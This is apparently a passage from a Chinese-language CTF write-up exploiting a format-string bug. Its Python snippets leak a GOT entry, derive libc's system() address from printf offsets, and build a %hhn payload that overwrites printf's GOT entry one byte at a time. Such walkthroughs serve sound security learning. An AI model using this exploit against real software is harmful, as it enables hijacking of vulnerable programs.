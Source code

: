 ```python
GOT_PLT_ADDR = 0x601038 # __libc_start_main
libc_start_main_addr = get_got_addr(proc)
libc_start_main_addr = int(''.join(map(str,libc_start_main_addr)))
print "libc_start_main_addr = %x" % (libc_start_main_addr)
```
![](https://i.loli.net/2019/07/22/5d357efe2515379346.png)
我们知道了两个偏移，就可以知道 `libc` 的信息了。使用 [libc-database](https://github.com/niklasb/libc-database)。

![](https://i.loli.net/2019/07/22/5d357efe6c20665562.png)
由此我们可以获得 libc，再得出 `system` 的地址
![](https://i.loli.net/2019/07/22/5d357efeb0bdc25325.png)
因此，`system_addr = printf_addr + offset_system - offset_printf`

```python
system_addr = printf_addr + 0x4f440 - 0x64e80
print "system_addr = %x" % (system_addr)
```
![](https://i.loli.net/2019/07/22/5d357eff00d9922963.png)
最后我们只需把 `system` 的地址写入到 `printf` 里去，即可完成攻击。不过我有一个小问题就是 scanf 是不接受 `0x20` 即空格的，如果遇到了我不知道怎么办。
可见，我们需要修改低三个字节的内容。这里我推荐使用 `%hhn`，一个字节一个字节写入。于是我们需要修改 `pad` 函数，使后面能容纳三个地址

```python
def pad2(s):
    return s + "X"*(1000 - len(s) - 24)
```
容易知道三个地址的偏移变成了 130， 131， 132。
```python
def set_got_addr_payload(v1, v2, v3, a1, a2, a3):
    pl = "" 
    pl += "%{}x".format(v1)
    pl += "%130$hhn"
    pl += "%{}x".format(v2)
    pl += "%131$hhn"
    pl += "%{}x".format(v3)
    pl += "%132$hhn"
    pl = pad2(pl)
    pl += struct.pack("Q", a1) 
    pl += struct.pack("Q", a2) 
    pl += struct.pack("Q", a3)
    return pl
```
由于写入需要一定的顺序，而且只能递增，因此需要一些小的计算，我不细说了，自己体会。

```python
def sort_get_idx(vals):
    return sorted(range(len(vals)), key=lambda k: vals[k])
```
别忘了 
```python
import numpy as np
```
